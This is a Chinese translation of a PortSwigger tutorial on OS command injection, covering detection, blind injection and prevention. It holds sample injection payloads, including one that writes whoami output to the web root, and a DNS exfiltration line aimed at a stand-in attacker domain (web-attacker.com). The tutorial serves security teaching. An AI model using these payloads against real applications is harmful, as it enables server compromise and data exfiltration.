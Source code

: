 ```yaml
---
description: '原文链接：https://portswigger.net/web-security/os-command-injection'
---
```


# OS命令注入

## 什么是OS命令注入？

在本节中，我们将解释什么是操作系统命令注入，描述如何检测和利用漏洞，阐述一些针对不同操作系统的有用命令和技术，并总结如何防止操作系统命令注入。

![](../.gitbook/assets/image%20%285%29%20%283%29%20%283%29%20%283%29%20%284%29.png)

操作系统命令注入（也称为 shell 注入）是一个 web 安全漏洞，它允许攻击者可以在运行应用程序的服务器上执行任意操作系统（OS）命令，并且通常会完全破坏该应用程序及其所有数据。很多时候，攻击者可以利用 OS 命令注入漏洞来破坏托管基础结构的其他部分，利用信任关系将攻击转移到组织内的其他系统。

{% embed url="https://www.youtube.com/watch?v=8PDDjCW5XWw" %}

## 执行任意命令

考虑一个购物应用程序，让用户可以查看某件商品在特定商店中是否有库存。 这一信息是通过一个URL访问的：

```text
https://insecure-website.com/stockStatus?productID=381&storeID=29
```

为了提供库存信息，应用程序必须查询各种旧系统。 由于历史原因，该功能是通过使用产品和存储的ID作为参数调用 shell 命令来实现的：

```text
stockreport.pl 381 29
```

此命令输出指定物品的库存状态，并返回给用户。

由于该应用程序没有实现对操作系统命令注入的防御，攻击者可以提交以下输入来执行一个任意命令：

```text
& echo aiwefwlguh &
```

如果这个输入是在`productID`参数中提交的，那么应用程序执行的命令是：

```text
stockreport.pl & echo aiwefwlguh & 29
```

`echo`命令只是使提供的字符串在输出中回显，它是测试某些类型的 OS 命令注入的有用方法。 `&`字符是 shell 命令分隔符，因此执行的实际上是一个接一个的三个独立命令。 因此，返回给用户的输出为：

```text
Error - productID was not provided
aiwefwlguh
29: command not found
```

输出的三行表明：

* 原始的`stockreport.pl`命令在没有预期参数的情况下执行，因此返回了一个错误消息。
* 注入的`echo`命令被执行，并且提供的字符串在输出中回显。
* 原先的参数`29`被作为命令执行，这导致了一个错误。

将额外的命令分隔符`&`放在注入的命令之后通常是很有用的，因为它将注入命令与注入点后面的内容分开。 这就减少了后面的阻止注入命令执行操作的可能性。

> 实验：[OS 命令注入，简单案例](https://portswigger.net/web-security/os-command-injection/lab-simple)

## 有用的命令

当你确定了一个 OS 命令注入漏洞后，执行一些初始命令以获得被你入侵的系统的信息通常是有用的。 以下是在 Linux 和 Windows 平台上有用的一些命令摘要：

| 命令的用途 | Linux | Windows |
| :--- | :--- | :--- |
| 当前用户名 | `whoami` | `whoami` |
| 操作系统 | `uname -a` | `ver` |
| 网络配置 | `ifconfig` | `ipconfig /all` |
| 网络连接 | `netstat -an` | `netstat -an` |
| 运行的进程 | `ps -ef` | `tasklist` |

## 操作系统命令盲注漏洞

OS 命令注入的许多例子都是盲注漏洞。 这意味着应用程序不会在其 HTTP 响应中返回命令的输出。 盲注漏洞仍然可以被利用，但是需要不同的技术。

考虑一个网站允许用户提交有关该站点的反馈。 用户输入他们的电子邮件地址和反馈消息。 然后，服务器端应用程序生成一封包含反馈的电子邮件发到网站管理员。 为此，它要把提交的详细信息调用给邮件程序。 例如：

```text
mail -s "This site is great" -aFrom:peter@normal-user.net feedback@vulnerable-website.com
```

`mail`命令的输出（如果有）不会在应用程序的响应中返回，因此使用`echo` payload 将无效。 在这种情况下，你可以使用多种其他技术来检测和利用漏洞。

### 使用时间延迟检测OS命令盲注

你可以使用一个注入命令来触发一个时间延迟，从而让你根据应用程序响应的时间来确认命令是否被执行。 `ping`命令是执行此操作的有效方法，因为它可以让你指定要发送的 ICMP 数据包的数量，从而指定命令运行所花费的时间：

```text
& ping -c 10 127.0.0.1 &
```

此命令将导致应用程序`ping`其环回网络适配器10次。

> 实验：[带时间延迟的 OS 命令盲注](https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays)

### 通过重定向输出来利用OS命令盲注

你可以将注入命令的输出重定向到 web 根目录下的一个文件中，然后就可以用浏览器进行取回。 例如，如果应用程序从`/var/www/static`位置提供静态资源，那么可以提交以下输入：

```text
& whoami > /var/www/static/whoami.txt &
```

`>`字符将`whoami`命令的输出发送到指定文件中。 然后，你可以使用浏览器获取`https://vulnerable-website.com/whoami.txt`来获取文件，并查看注入命令的输出。

> 实验：[带重定向输出的 OS 命令盲注](https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection)

### 使用带外（OAST）技术利用盲OS命令注入

你可以使用一个注入的命令，通过 OAST 技术触发与你控制的系统的带外网络交互。 例如：

```text
& nslookup kgji2ohoyw.web-attacker.com &
```

此 payload 使用`nslookup`命令对指定域进行 DNS 查找。 攻击者可以监视到是否发生了指定的查找，从而检测命令已成功注入。

> 实验：[带外交互的 OS 命令盲注](https://portswigger.net/web-security/os-command-injection/lab-blind-out-of-band)

带外通道还提供了一种简单的方法来从注入的命令中提取输出：

```text
& nslookup `whoami`.kgji2ohoyw.web-attacker.com &
```

这将导致对攻击者的域名进行 DNS 查找，其中包含`whoami`命令的结果。

```text
wwwuser.kgji2ohoyw.web-attacker.com
```

> 实验：带外数据渗出的 OS 命令盲注

## 注入 OS 命令的方式

可以使用各种 shell 元字符来执行 OS 命令注入攻击。

一些字符可以作为命令的分隔符，使命令可以被链接起来。 以下命令分隔符在 Windows 和基于 Unix 的系统中均可使用：

* `&`
* `&&`
* `|`
* `||`

以下命令分隔符仅在基于 Unix 的系统中工作：

* `;`
* `0x0a` or `\n`

在基于 Unix 的系统中，你还可以使用反引号或 dollar 字符，在原始命令内对注入的命令内联执行：

* ````` 注入的命令 `````
* `$(` 注入的命令 `)`

请注意，不同的 shell 元字符具有细微的不同行为，这可能会影响它们在某些情况下是否起作用，以及它们是否允许带内检索命令输出或仅用于盲注利用。

有时，你控制的输入会出现在原始命令的引号内。 这种情况下，在使用合适的 shell 元字符注入新命令之前，需要终止带引号的上下文\(使用`"`或`'`\)。

## 如何防止OS命令注入攻击

到目前为止，防止 OS 命令注入漏洞最有效的方法是，永远不要从应用程序层代码中调用 OS 命令。 几乎在每种情况下，都有使用更安全的平台 API 来实现所需功能的替代方法。

如果认为无法避免使用用户提供的输入来调用 OS 命令，则必须进行强输入验证。一些有效验证的例子包括：

* 根据允许值的白名单进行验证。
* 验证输入是否为数字。
* 验证输入仅包含字母数字字符，不包含其他语法或空格。

不要试图通过转义 shell 元字符来清理输入。 实际中，这太容易出错，而且容易被熟练的攻击者绕过。

> 阅读更多
>
> [使用 Burp Suite 的 Web 漏洞扫描器找到 OS 命令注入漏洞](https://portswigger.net/burp/vulnerability-scanner)

